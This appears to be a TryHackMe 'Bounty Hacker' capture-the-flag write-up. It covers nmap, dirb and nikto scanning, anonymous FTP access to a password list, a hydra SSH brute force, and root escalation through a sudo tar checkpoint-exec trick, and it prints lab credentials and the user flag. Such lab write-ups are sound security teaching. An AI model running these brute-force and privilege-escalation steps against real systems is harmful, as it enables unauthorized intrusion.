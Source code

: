 # Bounty Hacker @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, dirb, nikto, ftp, google, ssh, bruteforce

Questions:

1.Who wrote the task list? 

2.What service can you bruteforce with the text file found?

3.What is the users password? 

4.user.txt

5.root.txt

### Ping the target to see it's alive (target IP will be given after you've joined the room)
```
ping 10.10.180.213
PING 10.10.180.213 (10.10.180.213) 56(84) bytes of data.
64 bytes from 10.10.180.213: icmp_seq=1 ttl=63 time=50.4 ms
64 bytes from 10.10.180.213: icmp_seq=2 ttl=63 time=53.2 ms
```

### nmap scan
``` 
nmap -sV -n -v -Pn -p- -T4 -A 10.10.180.213
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
Found open ports 21, 22 and 80. So FTP, SSH and web application.

Note the "Anonymous FTP login allowed"

### Lets run dirb and nikto scans
```
dirb http://10.10.180.213
---- Scanning URL: http://10.10.180.213/ ----
==> DIRECTORY: http://10.10.180.213/images/                                                                      
+ http://10.10.180.213/index.html (CODE:200|SIZE:969)                                                            
+ http://10.10.180.213/server-status (CODE:403|SIZE:278)       
```


```
nikto -h 10.10.180.213
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.180.213
+ Target Hostname:    10.10.180.213
+ Target Port:        80
+ Start Time:         2021-01-22 03:51:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 3c9, size: 5a789fef9846b, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2021-01-22 03:58:59 (GMT-5) (474 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Nothing interesting found with dirb or nikto. Opening site with browser, nothing interesting.


### Lets checkout the FTP
```
ftp 10.10.180.213                  
Connected to 10.10.180.213.
220 (vsFTPd 3.0.3)
Name (10.10.180.213:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```
Lets read locks.txt and task.txt

```
1.) Protect Vicious. 
2.) Plan for Red Eye pickup on the moon.

-lin

-------------------------------------------

rEddrAGON 
ReDdr4g0nSynd!cat3 
Dr@gOn$yn9icat3 
R3DDr46ONSYndIC@Te 
ReddRA60N 
R3dDrag0nSynd1c4te 
dRa6oN5YNDiCATE 
ReDDR4g0n5ynDIc4te 
R3Dr4gOn2044 
RedDr4gonSynd1cat3 
R3dDRaG0Nsynd1c@T3 
Synd1c4teDr@g0n 
reddRAg0N 
REddRaG0N5yNdIc48e 
Dra6oN$yndIC@t3 
4L1mi6H71StHeB357 
rEDdragOn$ynd1c473 
DrAgoN5ynD1cATE 
ReDdrag0n$ynd1cate 
Dr@gOn$yND1C4Te 
RedDr@gonSyn9ic47e 
REd$yNdIc47e 
dr@goN5YNd1c@73 
```
Passwords apparently, but we found answer to our first question.
Who wrote the task list? lin

### Lets try bruteforcing SSH with the passwordlist and username lin.
```
hydra 10.10.180.213 -l lin -P locks.txt ssh 

ydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-22 04:07:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.180.213:22/
[22][ssh] host: 10.10.180.213   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```
Found login: lin   password: RedDr4gonSynd1cat3.

Also got the answer for the second and third questions: 

What service can you bruteforce with the text file found? SSH

What is the users password? RedDr4gonSynd1cat3


### Lets SSH with the found credentials.
```
ssh lin@10.10.180.213 

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
Here's our answer to fourth question. user.txt: 

Lets see list of allowed commands.
```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
We can run tar as root. Quick google "root tar sudo exploit" or similiar should point you to https://gtfobins.github.io/gtfobins/tar/.

```
lin@bountyhacker:/$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
# whoami
root
# locate root.txt
/root/root.txt
# cat /root/root.txt

```
And here we have our final answer. THM***********}




